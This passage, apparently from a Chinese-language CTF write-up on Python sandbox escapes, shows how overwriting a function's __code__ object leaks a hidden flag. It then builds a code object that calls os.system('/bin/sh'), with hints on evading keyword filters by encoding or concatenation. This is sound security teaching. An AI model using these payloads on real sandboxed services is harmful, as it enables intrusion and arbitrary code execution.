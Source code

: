 ```c
     target.__code__.co_varnames,\
     target.__code__.co_filename,\
     target.__code__.co_name,\
     target.__code__.co_firstlineno,\
     target.__code__.co_lnotab.hex(),\
     target.__code__.co_freevars,\
     target.__code__.co_cellvars)
print(code)
'''
result:
flag.__code__ =type(target.__code__)(0,0,0,0,2,19,bytes.fromhex('880064016b037210740088008301010064005300'),(None,'', ''),('print',),(),'newcode.py','printflag',2,bytes.fromhex('00010801'),('flag',),())
'''
```

```bash
py example2.py
>flag.__code__=type(target.__code__)(0,0,0,0,2,19,bytes.fromhex('880064016b037210740088008301010064005300'),(None, ''),('print',),(),'newcode.py','printflag',2,bytes.fromhex('00010801'),('flag',),())
flag{2333}
```

可以看到这里通过覆盖修改原函数的`__code__`对象使其成功输出了原函数域内的变量flag，此外，这里由于只接受一次输入，把这个过程压缩在一行里，也可以用一个while循环达成无限次数的输入，但有些时候也可能并没有这样一个继续交互的机会

```c
while True:    exec(input())
'''
    >....
    >break
'''
```

实际上利用`__code__`对象完全可以执行任意操作码\(opcode\) ，比如我们构造一个通过`os`模块`getshell`的对象

```python
def target():
    import os
    os.system("/bin/sh")
...
#稍微整理得到
flag.__code__ =type(target.__code__)(0,0,0,1,3,67,bytes.fromhex('640164006c007d007c00a0016402a101010064005300'),(None, 0, '/bin/sh'),('os', 'system'),('os',),'newcode.py','target',8,bytes.fromhex('00010801'),('flag',),())
```

输入上面的样例就会运行shell，当然，os和system肯定是被过滤的关键词，但这里字符串形式的关键词想必大家也有各种编码和拼接的办法来绕过过滤的

当然，这样还是依赖`os`模块

不过由上面的例子我们可以理解，通过构造`__code__`，我们完全可以按自己的想法执行任意的opcode而没什么约束，从而通过opcode达成外部任意读写从而为所欲为

### Opcode操作码 <a id="toc-2"></a>
